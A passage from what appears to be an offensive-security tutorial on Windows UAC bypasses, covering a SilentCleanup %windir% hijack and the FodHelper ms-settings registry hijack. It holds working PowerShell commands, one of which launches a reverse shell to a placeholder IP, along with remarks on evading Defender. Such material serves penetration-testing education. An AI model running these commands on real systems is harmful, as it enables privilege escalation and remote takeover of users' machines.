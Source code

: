 ```powershell
Set-ItemProperty -Path "HKCU:\Environment" -Name "windir" -Value "cmd.exe /K C:\Windows\Tasks\RShell.exe <IP> 8080 & REM " -Force
Start-ScheduledTask -TaskPath "\Microsoft\Windows\DiskCleanup" -TaskName "SilentCleanup"

```

![image](7CWyjBLSNAV1.png)

To clean up after the bypass, we should remove the value we set for `%windir%` with the following command:

```powershell
Clear-ItemProperty -Path "HKCU:\Environment" -Name "windir" -Force

```

#### Bypass 2: FodHelper Execution Hijack

The `FodHelper bypass` was [discovered in 2017](https://www.borncity.com/blog/2017/05/24/windows10-neue-uac-bypassing-methode-fodhelper-exe/) by a master's student. Nowadays, it is a very well-known attacker vector and `Windows Defender Antivirus` does a relatively good job of detecting it. That being said, the technique still works, and it is not so hard to avoid getting detected.

The default `Windows` program `C:\Windows\System32\fodhelper.exe` has an attribute called `AutoElevate`, which makes it so that when it is run by a user at a `medium integrity level`, it is automatically elevated to a `high integrity level`.

```powershell
PS C:\Tools\SysinternalsSuite> .\sigcheck.exe -m C:\Windows\System32\fodhelper.exe | findstr autoElevate
        <autoElevate>true</autoElevate>

```

When `FodHelper` is run, it attempts to read the value of the registry key `"HKCU\Software\Classes\ms-settings\Shell\Open\Command"`:

![image](J7mIVSvECCbJ.png)

Registry keys ending with `"Shell\Open\Command"` are used to tell `Windows` how to open various file types, so for example `GIF` files should be opened with `iexplore.exe` as is defined here:

![image](cXeb7x6bXoRA.png)

Basically, `FodHelper` tries to read `"...\ms-settings\Shell\Open\Command"` because it wants to open something using the `ms-settings` protocol, and it needs to know how. We saw in a previous screenshot that it first checked `HKCU` and then `HKCR` after the first path was not found. Since we are able to modify `HKCU`, we should be able to control the value `FodHelper` receives.

Traditionally, the bypass was to set `"HKCU\Software\Classes\ms-settings\Shell\Open\command"` to whatever command we wanted to run, however nowadays `Microsoft Defender Antivirus` will kill the process as soon as you write to this key:

```powershell
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "cmd.exe" -Force

C:\Windows\System32\fodhelper.exe

```
